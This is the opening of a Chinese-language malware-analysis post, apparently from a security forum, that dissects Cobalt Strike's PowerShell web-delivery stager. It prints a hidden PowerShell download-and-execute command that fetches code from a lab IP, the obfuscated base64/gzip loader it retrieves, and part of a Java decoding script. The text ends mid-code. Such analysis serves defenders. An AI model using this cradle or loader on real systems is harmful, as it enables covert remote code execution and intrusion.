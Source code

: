 0x00 本文主要分析内容
=============

1、CS powershell上线过程分析  
2、powershell shellcodeloader分析  
3、shellcode内容  
4、dll注入相关内容  
5、ReflectDllInjection技术分析

0x01 生成攻击payload：
=================

CS通过Arttack—&gt;Web Drive-by—&gt;Scripted Web Delivery（s）

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-85088e13045df56884222d1d1936649b2154b492.png)  
生成的攻击payload如下：

`powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.129.132:80/xxx'))"`

0x02 取hxxp://xxx:port/xx文件内容
============================

直接访问对应地址，`http://192.168.129.132:80/xxx`拿到内容：

```php
$s\=New-Object IO.MemoryStream(,\[Convert\]::FromBase64String("H4sIAAAAAAAAAOy9Wc/q..........................................EJEsbCTVgUA"));  
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,\[IO.Compression.CompressionMode\]::Decompress))).ReadToEnd();
```

简化下：

```php
$s\=New-Object IO.MemoryStream(,\[Convert\]::FromBase64String("字符内容"));  
IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,\[IO.Compression.CompressionMode\]::Decompress))).ReadToEnd();
```

其实就是执行一个IEX的powershell命令，传入的参数为上面那段字符串的base64解码然后gzig解压缩之后的内容：

0x03 base64 AND Gzip Decode
===========================

所以这里我们直接对上述字符串解码：

简单写个java脚本解下( 当然其实大可不必，直接丢powershell里面就可以解出来重定向到文件里面即可,或者直接一个工具也能比较方便的解出来比如CyberChef，但是这里我习惯用java处理，就几行代码，也很快)：

```php
import sun.misc.BASE64Decoder;  
import java.io.\*;  
import java.nio.file.Files;  
import java.nio.file.Path;  
import java.nio.file.Paths;  
import java.util.Base64;  
import java.util.zip.GZIPInputStream;  
import java.util.zip.ZipException;  
​  
/\*\*  
 \* @author ga0weI  
 \* @time 20220731  
 \*/  
​  
public class OtherforCStest {  
    public static void main(String\[\] args) throws Exception {  
        try(  
        FileOutputStream fileOutputStream \= new FileOutputStream("Afterdbase64Dgzip.txt")){  
        Path path \= Paths.get("Waitdbase64Dgzip.txt");  
        byte\[\] bytess\= Files.readAllBytes(path);  
```